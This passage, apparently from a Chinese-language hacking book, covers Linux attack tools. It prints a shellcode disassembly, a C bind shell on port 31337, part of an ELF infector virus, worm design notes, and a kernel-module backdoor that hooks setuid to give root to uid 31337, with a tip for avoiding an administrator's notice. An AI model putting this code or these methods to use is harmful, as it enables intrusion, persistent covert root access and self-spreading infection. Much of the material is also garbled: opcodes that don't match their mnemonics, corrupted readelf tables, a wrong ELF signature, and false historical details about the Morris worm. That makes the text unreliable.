| 804846b: | 8d 4e 08 | lea 08(%esi),%ecx |
| 804846e: | b0 66 | mov $66, %al |
| 8048470: | cd 80 | int $80 |
| 8048472: | 89 5e 0c | mov %ebx, 0(%esi) |
| 8048475: | 43 | inc %ebx |
| 8048477: | b0 66 | mov $66, %al |
| 8048479: | cd 80 | int $80 |
| 804847b: | 89 56 06 | mov %ebx, 0(%esi) |
| 804847e: | 89 46 0c | mov %eax, 0(%esi) |
| 8048481: | b0 66 | mov $66, %al |
| 8048483: | 43 | inc %ebx |
| 8048484: | cd 80 | int $80 |
| 8048486: | 97 c33 | xchg %al,%bl |
| 8048488: | b0 3f | mov $3f, %al |
| 804848a: | 31 c9 | xor %ecx, %ecx |
| 80484be: | cd 80 | int $80 |
| 8048490: | b0 3f | mov $3f, %al |
| 8048491: | 41 | inc %ecx |
| 8048493: | cd 80 | int $80 |
| 8048495: | b0 3f | mov $3f, %al |
| 8048496: | 41 | inc %ecx |
| 8048498: | cd 80 | int $80 |
| 804849b: | 89 d4 7 | mov %dl, 7(%esi) |
| 80484a0: | 89 fe 0c | mov %esi, 0c(%esi) |
| 80484a3: | 93 d3 | xchg %esi,%ebx |
| 80484a5: | 8d c4 e0 | lea 0(%ebx),%ecx |
| 80484a7: | b0 0b | mov $0b, %al |
| 80484ac: | cd 80 | int $80 |
| 80484ad: | e8 f5 ff ff | call start |
| 80484ae: | 68 73 68 2e 69 2f | .string "/bin/sh" |

# 第三部分：漏洞

## 列表 14.15. Socket 重用型 shellcode (reuseshell.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>

int soc, cli;
int sins;
struct sockaddr_in serv_addr;
struct sockaddr_in cli_addr;

int main() {
    int n_reuse = 200;
    sins = 0x10;
    if(fork() == 0) {
        serv_addr.sin_family = AF_INET;
        serv_addr.sin_addr.s_addr = INADDR_ANY;
        serv_addr.sin_port = htons(31337);
        soc = socket(AF_INET, SOCK_STREAM, 0);
        setsockopt(soc, SOL_SOCKET, SO_REUSEADDR, (char*)&n_reuse, sizeof(n_reuse));
        bind(soc, (struct sockaddr*)&serv_addr, sizeof(serv_addr));
        listen(soc, 1);
        cli = accept(soc, (struct sockaddr*)cli_addr, &sins);
        dup2(cli, 0);
        dup2(cli, 1);
        dup2(cli, 2);
        execl("/bin/sh", "sh", 0);
        close(cli);
        exit(0);
    }
}
```

# 第四部分：自我复制型攻击软件

## 第 15 章：ELF 文件格式

Linux 可执行文件的主要格式是可执行可链接格式（ELF）。任何渴望编写自我复制软件（主要是病毒）的人都必须对该格式有深入的了解。互联网上有许多获取最新 ELF 规范（1.2 版本）的资源，例如：`http://x86.dcj.com/ftp/manuals/tools/elf.pdf`。

在本章中，我将对规范进行简要介绍，并通过特定的示例探索 ELF 文件的结构。

### 15.1. 文件结构

在 ELF 文件规范中，一个可执行 ELF 文件的结构如列表 15.1 所示。

**列表 15.1.** 规范给出的 ELF 文件结构

```
ELF header
程序头部表 (Program header table)
段 1 (Segment 1)
段 2 (Segment 2)
...
节头部表 (Section header table) (可选)
```

然而，更准确的表示方式应该如列表 15.2 所示。

**列表 15.2.** ELF 文件结构更准确的表示

```
ELF header
程序头部表
段 1
  节 1
  节 2
  .
  节 n
段 2
  节 1
  节 2
  .
  节 n
.
段 n
  节 1
  节 2
  .
  节 n
节头部表 (可选)
符号表 (可选)
字符串表 (可选)
```

因此，一个可执行文件由一个 ELF 头部、一个程序头部表、一个或多个段、一个可选的节头部表、一个可选的符号表和一个可选的字符串表组成。每个段可以划分为多个节。

### 15.2. 主要结构

ELF 格式结构的所有定义都存储在 `/usr/include/elf.h` 头文件中。ELF 头部在文件中的位置是固定的；其余每个组件的位置由头部中的信息决定。ELF 头部的结构如列表 15.3 所示。

**列表 15.3.** ELF 头部结构

```c
#define EI_NIDENT (16)

typedef struct
{
    unsigned char e_ident[EI_NIDENT]; /* 签名 (0x7f,'E','L','F') 以及其他信息 */

    /* 文件类型 */
    Elf32_Half    e_type;           /* 文件类型 */
    Elf32_Half    e_machine;        /* 要求的硬件架构 */
    Elf32_Word    e_version;       /* 对象文件版本 */
    Elf32_Addr    e_entry;         /* 程序入口点的虚拟地址 */
    Elf32_Off     e_phoff;         /* 程序头部表相对于文件起始的偏移量 */
    Elf32_Off     e_shoff;         /* 节头部表相对于文件起始的偏移量 */
    Elf32_Word    e_flags;         /* i386 架构未使用的特定处理器标志 */
    Elf32_Half    e_ehsize;         /* ELF 头部的大小（字节） */
    Elf32_Half    e_phentsize;      /* 程序头部表中单条目的的大小（字节） */
    Elf32_Half    e_phnum;         /* 程序头部表中的条目数量 */
    Elf32_Half    e_shentsize;      /* 节表中单条目的的大小（字节） */
    Elf32_Half    e_shnum;         /* 节头部表中的条目数量 */
    Elf32_Half    e_shstrndx;      /* 包含字符串表的段的位置 */
} Elf32_Ehdr;
```

程序头部表是一个结构体数组（表记录），它规定了如何从段中创建进程映像。列表 15.4 显示了记录的结构。大多数段被复制（映射）到内存中，它们是执行进程对应的段，例如数据段。

**列表 15.4.** 程序头部表记录结构

```c
typedef struct {
    Elf32_Word p_type;      /* 段类型 */
    Elf32_Off  p_offset;     /* 段相对于文件起始的偏移 */
    Elf32_Addr p_vaddr;      /* 段的虚拟地址 */
    Elf32_Addr p_paddr;      /* 段的物理地址 */
    Elf32_Word p_filesize;    /* 文件大小 */
    Elf32_Word p_memsize;     /* 内存中的大小 */
    Elf32_Word p_flags;      /* 标志 */
    Elf32_Word p_align;      /* 对齐值 */
} Elf32_Phdr;
```

可选的节头部表描述了划分后的节。列表 15.5 显示了节头部的结构。

**列表 15.5.** 节头部结构

```c
typedef struct {
    Elf32_Word sh_type;      /* 节类型 */
    Elf32_Off  sh_offset;     /* 相对于文件起始的偏移 */
    Elf32_Addr sh_addr;      /* 节的虚拟地址 */
    Elf32_Word sh_size;      /* 节的大小 */
    Elf32_Word sh_memsize;    /* 内存中的大小 */
    Elf32_Word sh_link;      /* 另一个节的链接 */
    Elf32_Word sh_info;      /* 符号表中的条目数量 */
    Elf32_Half sh_strndx;   /* 字符串表的索引 */
} Elf32_Sh;
```

ELF 文件的内部结构可以使用 `readelf` 工具进行探索。例如，编写一个简单的程序（见 15.7）并探索其结构。

**列表 15.7.** 用于探索的简单程序

```c
#include <stdio.h>

int main()
{
    printf("Hello, World!\n");
    return 0;
}
```

# 268 第四部分：自我复制黑客软件

```
[Requesting program interpreter: /lib/ld-linux.so.2]
LOAD       0000000 0x0848000 0x0848000 0x004f7 0x004f7 R E 0x1000
LOAD       00004f8 0x0849f8 0x0849f8 0x000e8 0x00100 RW 0x100
DYNAMIC     0000540 0x0849540 0x0849540 0x00a0a 0x00a0a RW 0x4
NOTE       0000108 0x0848108 0x0848108 0x000020 R 0x4
```

段到段的映射：
段...

```
00
01   .interp
02   .interp_ABI-ABI .hash .dynym .dynstr .gnu.version .gnu.version_r
03   .rel.plt .init .plt .text .fini .rodata
04   .data .eh_frame .ctors .dot .dynamic .bss
05   .note.ABI-abi
```


# 第 15 章：ELF 文件格式

你可以看到，程序中只有六段。该工具还列出了每个段中的节。

使用 `-S` 运行该工具显示头部表：

```bash
# readelf -S //hello
```

有 30 个节头，从偏移量 `0x2990` 开始：

| [Name] | Type | Addr | Off | Size | ES | Flag | Lk | Inf |
|---|---|---|---|---|---|---|---|---|
| 1 | NULL | 0000000 000000 00 | 0 | 0 | 0 | 0 | 0 |
| 2 | .interp | PROGBITS | 0x08400f4 00000f4 13 | 0 | A | 0 | 0 |
| 3 | .note.ABI-TAG | NULL | 0x0848108 0000108 20 | 0 | A | 0 | 0 |
| 4 | .hash | SYMTAB | 0x0848128 0000128 33 | 0 | A | 4 | 0 |
| 5 | .dynym | PROGBITS | 0x084915c 000015c 00 | 8 | A | 5 | 1 |
| 6 | .gnu.version | PROGBITS | 0x08481d6 00001d6 00 | 9 | A | 0 | 1 |
| 7 | .gnu.version_r | VERNEED | 0x0842824 0000284 00 | 0 | A | 5 | 1 |
| 8 | .rel.rel | PROGBITS | 0x0842b24 00002b4 00 | 8 | A | 4 | 3 |
| 9 | .rel.plt | PROGBITS | 0x0842b2c 0000b2c 00 | 8 | A | b | 4 |
| 10 | .init | PROGBITS | 0x08482e4 00002e4 00 | 04 | A | X | 0 |
| 11 | .fini | PROGBITS | 0x08483c6 00003c6 00 | 16 | A | 0 | 1 |
| 12 | .text | PROGBITS | 0x0848360 0000360 00 | 16 | A | 0 | 1 |
| 13 | .fini | PROGBITS | 0x08484c0 00004e0 01 | 07 | A | 0 | 1 |
| 14 | .rodata | PROGBITS | 0x0848e60 0000e40 01 | 07 | A | 0 | 1 |
| 15 | .dynamic | PROGBITS | 0x0849d00 0000d00 10 | 0 | W | 0 | 1 |
| 16 | .eh_frame | PROGBITS | 0x0849508 0000508 00 | 04 | W | 0 | 1 |
| 17 | .ctors | PROGBITS | 0x084950c 000050c 00 | 05 | W | 0 | 1 |
| 18 | .bss | PROGBITS | 0x0849514 0000514 05 | 08 | W | 0 | 1 |
| 19 | .got | PROGBITS | 0x084915c 000015c 00 | 24 | A | 0 | 1 |
| 20 | .dynamic | DYNAMIC | 0x0849b40 0000b40 00 | 08 | W | 0 | 1 |
| 21 | .bss | DYNAMIC | 0x08495e0 00005e0 00 | 05 | W | 0 | 1 |
| 22 | .bss | NOBITS | 0x000000 00005e0 05 | 18 | | 0 | 1 |
| 23 | .stab | PROGBITS | 0x000000 000007a 04 | 24 | C | 0 | 1 |
| 24 | .strtab | STRTAB | 0x000000 0000b4 02 | 01 | | | 1 |
| 25 | .comment | PROGBITS | 0x000000 0001c4 00 | 01 | | | 1 |
| 26 | .note | NULL | 0x000000 0002f2 27 | 00 | | | 1 |
| 27 | .shstr | STRTAB | 0x000000 00009e 00 | 01 | | | 1 |
| 28 | .symtab | SYMTAB | 0x000000 002e40 00 | 04 | 29 | b |

```
[29] .strtab STRTAB 0000000 003320 0022c 00 0 1
```

Key to Flags:

- `W` (write), `A` (alloc), `X` (execute), `M` (merge), `S` (strings)
- `I` (info), `L` (link), `G` (group), `x` (unknown)
- `O` (OS), `p` (processor specific)

可以看到，入口点 `0x048360` 是 `.text` 的起始虚拟地址。

运行工具带有 `-s` 参数输出符号表：

```bash
# readelf -s //hello
```

符号表 `.dynym` 包含 8 个条目：

| Num | Value | Type | Bind | Ndx |
|---|---|---|---|---|
| 0 | 0x00000000 | NOT | DEFAULT | __register_frame_info@GLIBC_2.0 (2) |
| 1 | 0x0048830c | 29 | WEAK | DEFAULT | __deregister_frame_info@GLIBC_2.0 (2) |
| 2 | 0x0048831c | 172 | WEAK | DEFAULT | __libc_start_main@GLIBC_2.0 (2) |
| 3 | 0x0048832c | 50 | GLOBAL | DEFAULT | printf@GLIBC_2.0 (0) |
| 4 | 0x0048833e | 50 | GLOBAL | DEFAULT | __initialize@GLIBC_2.1 (3) |
| 5 | 0x004884e4 | 157 | GLOBAL | DEFAULT | 14 __used |
| 6 | 0x00000000 | 0 | WEAK | __main_start |

符号表 `symtab` 包含 78 个条目：

| Num | Value | Size | Type | Bind | Ndx | Name |
|---|---|---|---|---|---|---|
| 0 | 0x0000000 | 0 | NOT | DEFAULT | | |
| 1 | 0x00480f4 | 0 | SECTION | DEFAULT | 1 | |
| 2 | 0x00488108 | 0 | SECTION | DEFAULT | 2 | |
| 3 | 0x00488128 | 0 | SECTION | DEFAULT | 3 | |
| 4 | 0x0048815c | 0 | SECTION | DEFAULT | 4 | |
| 5 | 0x004881dc | 0 | SECTION | DEFAULT | 5 | |
| 6 | 0x00488272 | 0 | SECTION | DEFAULT | 6 | |
| 7 | 0x004882a4 | 0 | SECTION | DEFAULT | 7 | |
| 8 | 0x004882d8 | 0 | SECTION | DEFAULT | 8 | |
| 9 | 0x004882bc | 0 | SECTION | DEFAULT | 9 | |
| 10 | 0x004882e4 | 0 | SECTION | DEFAULT | 10 | |
| 11 | 0x004882fc | 0 | SECTION | DEFAULT | 11 | |
| 12 | 0x00488360 | 0 | SECTION | DEFAULT | 12 | |
| 13 | 0x004883a0 | 0 | SECTION | DEFAULT | 13 | |
| 14 | 0x004884e0 | 0 | SECTION | DEFAULT | 14 | |
| 15 | 0x004894f8 | 0 | SECTION | DEFAULT | 15 | |
| 16 | 0x00489508 | 0 | SECTION | DEFAULT | 16 | |
| 17 | 0x004895c0 | 0 | SECTION | DEFAULT | 17 | |
| 18 | 0x00489514 | 0 | SECTION | DEFAULT | 18 | |
| 19 | 0x0048951c | 0 | SECTION | DEFAULT | 19 | |
| 20 | 0x004895a0 | 0 | SECTION | DEFAULT | 20 | |
| 21 | 0x004895e0 | 0 | SECTION | DEFAULT | 21 | |
| 22 | 0x004895e4 | 0 | SECTION | DEFAULT | 22 | |
| 23 | 0x00000000 | 0 | SECTION | DEFAULT | 23 | | |
| 24 | 0x00000000 | 0 | SECTION | DEFAULT | 24 | | |
| 25 | 0x00000000 | 0 | SECTION | DEFAULT | 25 | | |
| 26 | 0x00000000 | 0 | SECTION | DEFAULT | 26 | | |
| 27 | 0x00000000 | 0 | SECTION | DEFAULT | 27 | | |
| 28 | 0x00000000 | 0 | SECTION | DEFAULT | 28 | | |

符号是函数、文件和其他对象的不同名称。此外，你可以看到表条目存储在两个节中：`.dynym` 和 `.symtab`。

使用 `strip` 工具删除 `hello` 文件中的符号信息并再次检查修改后的内容：

```bash
# strip -s ./hello
# readelf -s ./hello
```

符号表 `.dynym` 包含 8 个条目：

| Num | Value | Size | Type | Bind | Vis | Ndx | Name |
|---|---|---|---|---|---|---|---|
| 0 | 00000000 | 0 | NOT | LOCAL | DEFAULT | UND | __register_frame_info@GLIBC_2.0 (2) |
| 1 | 0804830c | 172 | WEAK | DEFAULT | UND | __gister_frame_info@GLIBC_2.0 (2) |
| 2 | 0804833c | 202 | GLOBAL | DEFAULT | UND | __lib_start_main@GLIBC_2.0 (2) |
| 3 | 0804833c | 50 | FUNC | GLOBAL | DEFAULT | UND | printf@GLIBC_2.0 (2) |
| 4 | 0804834c | 157 | WEAK | DEFAULT | UND | __cxa_finalize@GLIBC_2.1.3 (3) |
| 5 | 080484e4 | 4 | OBJECT | GLOBAL | DEFAULT | UND | 14 _IO_stdin_used__ |
| 6 | 00000000 | 0 | NOTYPE | WEAK | DEFAULT | UND | __gmon_start__ |

`.symtab` 段被删除了，但 `.dynym` 段仍然存在。该段导入了重要库的动态链接信息，`strip` 不会碰它，因为没有该段程序将无法正常运行。

# 第 16 章：病毒

针对通用的类 UNIX 系统（特别是 Linux 系统）已经创建了许多病毒，但没有哪一个变得过广泛流行。这是因为 UNIX 类系统的访问权限被严格限制，病毒若要感染整个系统，必须拥有 root 权限。

然而，在系统中发现的严重本地漏洞将使得在没有 root 权限的情况下感染整个系统成为可能。这可以通过将病毒（ELF 感染器）与利用此类本地漏洞的利用（exploit）相结合来实现。黑客们希望尽快发现影响许多 Linux 系统的漏洞，并通过练习编写感染器来准备。但即便如此，发生大规模的流行也是不可能的，因为病毒的传播必须在许多系统中启动。这不像以前那样容易，因为那个全天交换软磁盘的时代早已成为历史。目前，UNIX 系统管理员大多数都从可靠的互联网源下载软件。因此，除非涉及包含可执行程序的流行网络存档，否则病毒扩散的概率微乎其微。如果一个病毒配备了在互联网上自传播和复制的机制，它就不再是病毒，而是蠕虫（参见第 16.3 节）。

除了 ELF 文件外，大多数感染器病毒都不是可执行文件，但脚本（perl、sh 等）在 UNIX 系统中非常流行，也存在用脚本语言编写的病毒，它们只感染脚本。由于本书以 C 语言为导，因此仅考虑了 C 语言的 ELF 感染器，尽管没有什么阻止你用汇编语言编写 ELF 感染器。

本章的列表 16.1 显示了最简单且通用的 ELF 感染器的源码。你也可以在附带光盘的 `/PART IV/Chapter 16` 目录下找到它。感染器并没有做任何花哨的操作；它只是简单在当前目录下寻找受害者——一个 ELF 文件——并将它的主体添加到受害者代码的开头。为了避免用户的怀疑，被感染的文件会被启动，感染器会暂时将其主体与受害者的主体分离，创建一个复制了受害者主体的临时文件并启动其执行。感染器删除临时文件，在当前目录下寻找另一个受害者，并将它的主体写入受害者主体的开头。这就是病毒复制的方式。

为了避免感染已经受感染的受害者，感染器会在每个被感染的受害者末尾打上标记“Ivan Skylarof”。在感染另一个潜在候选者之前，感染器会检查该标记。如果已经存在，感染器将放弃。此外，感染器会检查潜在感染对象是否为 ELF 文件。为此，它会查找文件开头的 `0x7E`、`'E'`、`'Y'`、`'F'` 签名，并检查文件类型字段 `e_type` 是否设置为 `_EXEC`，这意味着该文件是可执行的。如果感染器不进行这些检查，它会将自己添加到所有类型的文件中从而暴露自己。

感染器每次运行时只感染当前目录的一个目标。通过更改 `MAX_VICTIMS` 常量可以增加每次运行的受害者数量。你还可以添加在所有访问目录中传播的能力。我建议从注释中阅读其余代码。我建议从 `main()` 函数开始学习程序。

感染器像往一样编译：

```bash
# gcc infector.c -o infector
```

可以通过 `strip` 工具处理编译后的感染器的体积：

```bash
# strip infector
```

一个重要的细节：源码中的 `VIRUS` 长度必须是编译后程序的精确大小，否则感染器将无法正常工作。你必须多次编译感染器并使用不同的值来找到正确的值。`5296` 是我的系统中经过 `strip` 工具处理后编译感染器的大小，但在你的系统中可能会不同。

除了描述的感染方法外，还有更多方法。包括：

- 通过修改 ELF 文件头，可以在文件的开头、中间或结尾创建一个或多个段，病毒必须将程序入口 `e_entry` 指向其段的开头。病毒完成后，会将控制权交回受害者。
- 病毒可以将它的主体放在受害者的数据段（`.data`）中（如果空间不足，病毒可以增大体积）。然后将程序入口 `e_entry` 指向数据段中病毒代码的起始位置。病毒完成任务后，会将控制权交回受害者。由于 `.data` 段通常没有执行权限，病毒必须……

```c
if (status.st_size != VIRUS_LENGTH) {
    /* 启动被感染的文件；因此，
       将程序体与感染体分离。 */
    len = status.st_size - VIRUS_LENGTH;
    lseek(fd, VIRUS_LENGTH, 0);
    body = malloc(len);
    read(fd, body, len);
    close(fd);

    /* 在临时文件中交换原始程序 */
    fd = open(TMP_FILE, O_RDWR|O_CREAT|O_TRUNC, status.st_mode);
    write(fd, body, len);
    close(fd);

    /* 启动原始程序 */
    if (fork() == 0) wait();
    else execve(TMP_FILE, argv, envp);
    /* 删除临时文件 */
    unlink(TMP_FILE);
}

/* 寻找受害者并感染它 */
find_victim();

/* 退出感染体 */
close(fd);
exit(0);
```

# 第 17 章：蠕虫

与病毒一样，蠕虫是在网络上自我传播的计算机程序。

蠕虫和病毒的主要区别在于前者是自给自足的；也就是说，蠕虫不需要附加到可执行文件中即可进行复制。

我本打算在本章编写一个实战蠕虫，并用它来检查编写蠕虫的所有细节，但由于几个原因，我改变了这个主意。这不应该让你太难过（你不会去写真正的蠕虫吧？）。蠕虫仅仅是网络漏洞利用和在某些情况下病毒技术的结合，这些技术将在后续详细介绍。因此，我认为只需描述所有这些技术如何相互作用，并给出通用的蠕虫结构，让你理解如何编写它就足够。你也可以在第四部分找到经典的莫里斯蠕虫（Morris worm，现已无害）的完整源代码。这是第一个闻名世界的计算机蠕虫。它由康奈尔大学的学生罗伯特·莫里斯（Robert Morris Jr.）创建。该蠕虫于 1988 年 11 月开始传播，冲击了连接到 ARPANET 网络的数千台计算机，包括科学研究机构、大学、军事机构甚至是五角大楼的计算机。莫里斯蠕虫只能感染 UNIX 系统。估计它造成的损害达 1 亿美元。基本上，如果不计算大量的修改，几乎没有存在过 UNIX 蠕虫。按照它们在莫里斯蠕虫之后出现的先后顺序，这些蠕虫是 Lion、Cheese、Sadmind、Adore 和 Slapper。

## 自我复制软件

你可以在任何病毒开发者的网站上找到这些每种蠕虫的详细信息。一个标准的蠕虫包含三个部分：

- 头部（head），有时被称为漏洞利用代码
- 主体（body）


- 载荷

另一种情况是，蠕虫可以只有主体。载荷的目的是造成某些破坏——例如删除文件或从被感染的机器向某些主机发起 DoS 攻击——或者简单地安装后门以远程控制被感染的计算机。莫里斯蠕虫没有载荷；也就是说，它没有破坏性功能。蠕虫通常是一个利用软件漏洞（缓冲区溢出、格式错误）的利用程序，用此接管远程机器，建立 TCP/IP 连接并加载主体（如果蠕虫有主体的话）。某些蠕虫可以在远程机器上加载自身；也就是说，它的头部、主体和载荷是同一段代码。自然，这样的蠕虫更容易实现。蠕虫通常有多个头部。例如，莫里斯蠕虫有三个头部。如果受害计算机运行在 Red Hat 6.2 下，它的其中一个头部利用 `ftpd` 守护进程，另一个利用 `rpc`。如果计算机运行在 Red Hat 7.0 下，则只使用第三个头部，它利用了 `finger` 守护进程。莫里斯蠕虫有两个头部利用 `sendmail` 守护进程。此外，它还有第三个头部，那实际上不是漏洞利用，而是一个破解密码并连接到 `rsh/rexec` 服务的工具。

一旦蠕虫主体加载，它就会负责从感染系统传播蠕虫并启动载荷。蠕虫也可以安装到启动系统中，尽管可能不会。为了继续传播，蠕虫必须确定适合感染的主机 IP 地址。它通过几种方式实现：扫描当前子网的 IP 地址、生成随机 IP 地址、在受者的本地文件中搜索网络地址以及从受者的日志中导入数据。除了 IP 地址，蠕虫还可以寻找 URL 和电子邮件地址。

蠕虫必须测试获取的地址是否有效，如果是，则远程主机是否运行在存在漏洞的操作系统版本或可以使用蠕虫的一个或多个头部进行感染的服务上。此任务通过简单向主机发送请求并检查回复来完成。请求类型取决于特定的服务或操作系统；对于 Web 服务器，这可以仅仅是一个请求。接下来，蠕虫必须检查给定主机是否已经感染了蠕虫副本。这通常通过检查特定的单词或字符组合来完成；也就是说，蠕虫在网络请求中发送一个关键词，如果主机已感染，则被感染机器上的蠕虫副本会在回复中发送另一个关键词。这就是罗伯特·莫里斯失误的地方。从逻辑上讲，他预见到防御运行在潜在感染候选者上的副本将是太容易了，这会产生一种“已经运行着副本”的假象，并在被问及主机是否已感染时回答“是”。因此，他为他的蠕虫配备了一种机制，忽略每个正向回复并继续进行感染。但他选择的计算机和网络通道资源比例过高，以至于系统反复感染。

一旦蠕虫主体加载，它就会接管从感染系统传播蠕虫并启动载荷。选定受害者后，蠕虫头部利用其软件漏洞，并按照方案继续感染。

# 第五部分：本地攻击工具

# 第 18 章：内核模块编程简介

许多类型的 Linux 黑客工具使用 LKM 技术。`模块` 是内核根据需要加载和卸载的代码块。加载模块可以在不需要重启操作系统的情况下扩展。由于模块是内核的一部分，使用模块可以无限扩展系统。尽管日志清理程序（第 19 章考虑）不使用 LKM 技术，但键盘记录器和 rootkit（第 20 和第 21 章考虑）使用了。因此，在本章中我介绍了内核模块编程的基础。为 2.4.x 版本编写模块有所不同，但在本章中我们也考虑了为 2.4.x 内核编写 LKM，因为该内核版本仍在某些服务器在使用；有助于你更好地理解 2.6.x 内核的变化。你可以从其他文献获取有关内核模块编程的更详细信息，例如《Linux内核模块编程指南》（http://tldp.org/guides.html）。该指南从 .2 版本开始不断更新。

## 18.1. 2.4.x 版本模块

在第 11 章中，考虑了一个本地后门，它是 2.4.x 内核的 LKM。我将使用这个后门（列表 11.1）作为示例来考虑 2.4.x 内核模块的构建。标准的内核模块由两个函数组成。第一个函数 `init_module()` 在模块安装到内核后立即被调用。第二个函数 `cleanup_module()` 在模块从内核移除之前被调用。它通常会恢复模块安装之前存在的环境；也就是说，它会撤销 `init_module()` 函数所执行的操作。示例模块（列表 11.1）拦截了 `setuid` 系统调用并将其替换为它自己的版本。当用户登录系统或注册新用户时，总是会触发此系统调用，Linux 系统调用的名称和编号存储在 `/usr/include/asm/unistd.h` 头文件中。注意，该文件中有两个 `setuid` 的调用定义：

```
#define   NR_setuid      23
...
#define   NR_setuid32    213
```

在我的系统中，第二个版本（`__NR_setuid32`）可以起作用；第一个版本在你的系统中也可能有效。

内核有一个名为 `sys_call_table` 的系统调用表，它决定了通过系统调用号调用的内核函数地址。然后，`NR_setuid32` 的函数地址被替换为新函数的指针（我将其命名为 `change_setuid`），该函数将执行必要的操作。新函数会检查发起系统调用时的 `uid`，如果它是 31337，则为当前（用户）用户设置 root（0）权限。

重新编译列表 11.1 显示了 2.4.x 内核是如何编译的：

```
$ gcc -o bdmod.o -c bdmod.c
```

生成的对象文件 `bdmod.o` 必须复制到 `insmod` 工具搜索模块的目录。通常，这是 `/lib/modules` 目录：

```
$ cp bdmod.o /lib/modules
```

然后以以下方式加载模块：

```
$ insmod bdmod
```

使用 `lsmod` 工具用于验证模块是否已安装。该工具显示关于已加载模块的信息，这些信息是从 `/proc/modules` 文件获取的。

以下是该工具在我系统中执行的示例：

```
# lsmod
Module      Size  Used by
bdmod       656   0 (unused)
autofs      11264 1 (autoclean)
tulip       38544 1 (autoclean)
```

现在，你可以通过以 `uid = 31337` 登录系统来检查模块的操作。

结果是，用户被授予了 root 权限，如运行 `id` 命令所示：

```
# id
uid = 0(root) gid = 0(root)
```

可以通过 `rmmod` 命令从内核中移除模块：

```
# rmmod bdmod
```

## 18.2. 版本 2.6.x 模块

除了 2.4.x 内核中使用的常规模块结构外，2.6.x 内核引入了使用新模块结构的能力：

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>

MODULE_LICENSE("GPL");

static int __my_init(void)
{
    return 0;
}

static void __my_cleanup(void)
{
}

module_init(my_init);
module_exit(my_cleanup);
```

### sys_call_table 系统调用未导出

因此，`/linux/init.h` 头文件中 `module_init(my_init)` 和 `module_exit(my_cleanup)` 宏定义使得没有必要重命名初始和最终模块函数。尽管新模块结构很方便，但请继续使用 2.4.x 内核中使用的常规模块结构。

2.6.x 内核中最重要的变化是 `sys_call_table` 系统调用没有导出；因此，列表 11.1 中的代码在 2.6.x 内核将无法运行。然而，黑客找到了获取 `sys_call_table` 地址的方法，我考虑了其中。例如，列表 11.1 中的本地后门代码在 2.6.x 内核上是可以修改的。

### 18.2.1. 确定 sys_call_table 地址的方法一

系统调用表的地址可以在 `System.map` 文件找到，其中描述了内核变量和函数：

现在模块中可以进行赋值：

```c
unsigned long *sys_call_table;
(long *)&sys_call_table=0xc3ce760;
```

随后可以使用 `xchg()` 函数替换系统调用。列表 18.1 显示了使用确定确定 `sys_call_table` 地址方法的 2.6.x 内核本地后门源码。我建议在所有黑客模块中包含 `MODULE_LICENSE (GPL)` 宏定义，它指定了许可条款。模块如果没有此定义，操作系统将发出相应的消息，这记录在日志中并可能引起管理员的注意。

2.6.x 内核模块的编译方式与 2.4.x 内核不同。首先需要创建一个 `makefile`，内容如下（针对 `bmod-2.c` 模块）：

```
obj-m += bmod-2.o
```

然后，以以下方式加载模块：

```
$ insmod bmod.ko
```

## 第五部分：本地黑客工具

列表 18.2 显示了一个用于定位系统调用表地址的函数源代码。该函数将用于后续所有需要进行调用替换的 2.6.x 内核模块。为了使该函数工作，还必须定义一个全局变量：

```c
unsigned long* sys_call_table;
```

列表 18.3 显示了一个本地后门的源代码，该后门使用了第二种方法来确定 `sys_call_table` 地址。该模块的构建和安装方式与上一节相同，安装到内核中。

`bmod-3.c` 模块的源代码可以在附带 CD-ROM 的 `/PART V/Chapter 18` 目录中找到。

电子杂志 *Phrack* 的第 58 期中的《无需重启的 Linux 瞬时内核补丁》文章提供了另一种确定 `sys_call_table` 地址的方法。该方法取决于当前的平台，且其算法较为复杂。

### 列表 18.2. 确定 sys_call_table 地址的函数

```c
void find_sys_call_table(void)
{
    int i;
    unsigned long *ptr;
    unsigned long arr[4];
    /* 获取代码段末尾的指针 */
    ptr = (unsigned long *)((init_mm.end_code + 4) & 0xffffff);
    /* 搜索到数据段结束 */
    while((unsigned long)ptr < (init_mm.end_data) {
        /* 寻找 sys_call 的地址 */
        if (*ptr == (unsigned long) ((unsigned long)sys_call)) {
            for(i = 0; i < 4; i++) {
                arr[i] = *(ptr + i);
                arr[i] = (arr[i] >> 16) & 0x0000ffff;
            }
            /* 地址已经在表中了吗？ */
            if(arr[0] != arr[2] || arr[1] != arr[3]) {
                /* 确定系统调用表的地址 */
                sys_call_table = (ptr - __NR_close);
                break;
            }
        }
        ptr++;
    }
}
```

### 列表 18.3. 用于 2.6.x 内核的本地 LKM 后门 (bmod-3.c)

```c
/* Linux 2.6.x 的模块后门 * */
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/unistd.h>
```

## 第 18 章：内核模块编程介绍

```c
#include <linux/syscalls.h>

MODULE_LICENSE("GPL");
unsigned long *sys_call_table;
int (*origsetuid)(uid_t);

void find_sys_call_table(void) {
    int i;
    unsigned long *ptr;
    unsigned long arr[4];
    ptr = (unsigned long *)(init_mm.end_code + 4) & 0xfffffffc;
    while ((unsigned long)ptr < (unsigned long)init_mm.end_data) {
        if (*ptr == (unsigned long)((unsigned long *)sys_call)) {
            for (i = 0; i < 4; i++) {
                arr[i] = *(ptr + i);
            }
            arr[1] = (arr[1] >> 16) & 0x000ffff;
            if (arr[0] != arr[2] || arr[1] != arr[3]) {
                sys_call_table = (ptr - __NR_close);
                break;
            }
        }
        ptr++;
    }
}

int change_setuid(uid_t uid) {
    if (uid == 31337) {
        current->uid = 0;
        current->euid = 0;
        current->gid = 0;
        current->egid = 0;
        return 0;
    }
    return (*origsetuid)(uid);
}

int init_module(void) {
    find_sys_call_table();
    orig_setuid = (void *)sys_call_table[_NR_setuid32];
    sys_call_table[_NR_setuid32] = (unsigned long)change_setuid;
    return 0;
}

void cleanup_module(void) {
    sys_call_table[_NR_setuid32] = (unsigned long)orig_setuid;
}
```

# 第 19 章：日志清理工具

日志清理工具（也称为日志擦除）用于从系统日志文件中删除（清理）信息。黑客清理日志文件是为了隐藏他们已经入侵系统并获得访问权限的事实。有时日志清理工具会以 rootkit 组件的形式出现（见第 21 章）。大多数 Linux 日志文件存储在 `/var/log` 目录下。

